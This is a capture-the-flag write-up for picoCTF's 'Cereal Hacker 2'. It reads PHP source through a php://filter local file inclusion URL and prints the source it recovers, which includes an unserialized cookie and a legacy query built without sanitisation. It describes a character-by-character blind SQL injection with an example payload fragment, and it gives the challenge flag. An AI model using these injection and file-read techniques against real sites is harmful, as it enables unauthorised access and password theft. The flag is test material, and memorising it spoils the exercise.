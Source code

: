 <h3>Challenge #18 Cereal Hacker 2</h3>
<blockquote>Get the admin's password. https://2019shell1.picoctf.com/problem/62195/ or http://2019shell1.picoctf.com:62195</blockquote>

Same login page as in Cereal Hacker 1.<br>I could have use some of the pentesting tools for scanning vulnerabilities , but I was doing this manually. I started for searching for LFI/RFI and to access for example <code>../../../../etc/passwd</code>. <br>The file wasn't found but i saw that it is appending .php extension at the end as a message. So that means we can actually get to the local files ,or the inclusion was done by using most likely require_once php method. One of the solutions to get to certain file was using <code>php://filter/convert.base64_encode/resource</code> . With this I am able to see any php file that is out there by outputing b64 , before it's being used by require_once method. <br> So first I tried with <blockquote>https://2019shell1.picoctf.com/problem/62195/index.php?file=php://filter/convert.base64-encode/resource=admin</blockquote>
<br>
And that gave me base64 output , after decoding b64 we've got code from admin.php which looked like this : 

```php

 <?php

require_once('cookie.php');

if(isset($perm) && $perm->is_admin()){
?>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">Welcome to the admin page!</h5>
							<h5 style="color:blue" class="text-center">Flag: Find the admin's password!</h5>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>

<?php
}
else{
?>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">You are not admin!</h5>
							<form action="index.php" method="get">
								<button class="btn btn-lg btn-primary btn-block text-uppercase" name="file" value="login" type="submit" onclick="document.cookie='user_info=; expires=Thu, 01 Jan 1970 00:00:18 GMT; domain=; path=/;'">Go back to login</button>
							</form>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>

<?php
}
?>

```
<br>
We can see that is using require_once for cookie.php so I just followed the same steps for all the things that I could get. And I've got to the source code of DB query : <br>

```php
https://2019shell1.picoctf.com/problem/62195/index.php?file=php://filter/convert.base64-encode/resource=cookie
require_once('../sql_connect.php');

// I got tired of my php sessions expiring, so I just put all my useful information in a serialized cookie
class permissions
{
	public $username;
	public $password;
	
	function __construct($u, $p){
		$this->username = $u;
		$this->password = $p;
	}

	function is_admin(){
		global $sql_conn;
		if($sql_conn->connect_errno){
			die('Could not connect');
		}
		//$q = 'SELECT admin FROM pico_ch2.users WHERE username = \''.$this->username.'\' AND (password = \''.$this->password.'\');';
		
		if (!($prepared = $sql_conn->prepare("SELECT admin FROM pico_ch2.users WHERE username = ? AND password = ?;"))) {
		    die("SQL error");
		}

		$prepared->bind_param('ss', $this->username, $this->password);
	
		if (!$prepared->execute()) {
		    die("SQL error");
		}
		
		if (!($result = $prepared->get_result())) {
		    die("SQL error");
		}

		$r = $result->fetch_all();
		if($result->num_rows !== 1){
			$is_admin_val = 0;
		}
		else{
			$is_admin_val = (int)$r[0][0];
		}
		
		$sql_conn->close();
		return $is_admin_val;
	}
}

/* legacy login */
class siteuser
{
	public $username;
	public $password;
	
	function __construct($u, $p){
		$this->username = $u;
		$this->password = $p;
	}

	function is_admin(){
		global $sql_conn;
		if($sql_conn->connect_errno){
			die('Could not connect');
		}
		$q = 'SELECT admin FROM pico_ch2.users WHERE admin = 1 AND username = \''.$this->username.'\' AND (password = \''.$this->password.'\');';
		
		$result = $sql_conn->query($q);
		if($result->num_rows != 1){
			$is_user_val = 0;
		}
		else{
			$is_user_val = 1;
		}
		
		$sql_conn->close();
		return $is_user_val;
	}
}


if(isset($_COOKIE['user_info'])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE['user_info'])));
	}
	catch(Exception $except){
		die('Deserialization error.');
	}
}

?>
```
So here we have our db logic query, we can see that there is an old permission class that we were using in previous challenge but we can see siteuser class now . The difference is that siteuser class is not using prepared for sanitization , since there are two classes we can still exploit that siteuser. And it is still using unserialize, <a href="https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection">unserialize exploit.</a>
So this is going to be error-based / blind sql injection. We can make script for this and try to match password by checking character by character , if the character of password that we are trying to guess is right one we should get Welcome to admin page if not it should give us You are not an admin page.Check the <a href="">script</a>.<br>
Using <code>' or password like BINARY ' = "c%"</code> is going to check if the password is checking with character that we are trying to guess and if it does we are gonna concat it and provide that character as the first and so on till we get the flag. 

<b>FLAG : picoCTF{c9f6ad462c6bb64a53c6e7a6452a6eb7} </b>